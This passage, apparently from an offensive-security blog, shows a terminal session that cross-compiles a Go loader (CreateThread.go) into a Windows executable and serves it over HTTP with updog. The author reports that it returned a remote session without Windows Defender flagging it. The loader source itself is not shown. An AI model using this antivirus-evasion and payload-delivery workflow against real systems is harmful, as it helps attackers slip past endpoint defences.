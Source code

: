 - Compile and start http server
``` txt
root@ubuntu:~/Documents/blogcode# GOOS=windows GOARCH=amd64 go build -o test.exe .
run/CreateThread.go:9:2: no required module provides package golang.org/x/sys/windows; to add it:
        go get golang.org/x/sys/windows
        
root@ubuntu:~/Documents/blogcode# go mod tidy
go: finding module for package golang.org/x/sys/windows
go: found golang.org/x/sys/windows in golang.org/x/sys v0.22.0

root@ubuntu:~/Documents/blogcode# GOOS=windows GOARCH=amd64 go build -o test.exe .
root@ubuntu:~/Documents/blogcode# ls -lh test.exe
-rwxr-xr-x 1 root root 7.1M Jul 25 14:33 test.exe
root@ubuntu:~/Documents/blogcode# file test.exe
test.exe: PE32+ executable (console) x86-64, for MS Windows, 15 sections

root@ubuntu:~/Documents/blogcode# updog 
[+] Serving /root/Documents/blogcode...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.122.62:9090

```

- Test it on windows

We download it from our server, run it and we got our session back with defender on, meaning the defender's static analysis didn't flag us, great!

![test-on-windows](test-on-windows.png)
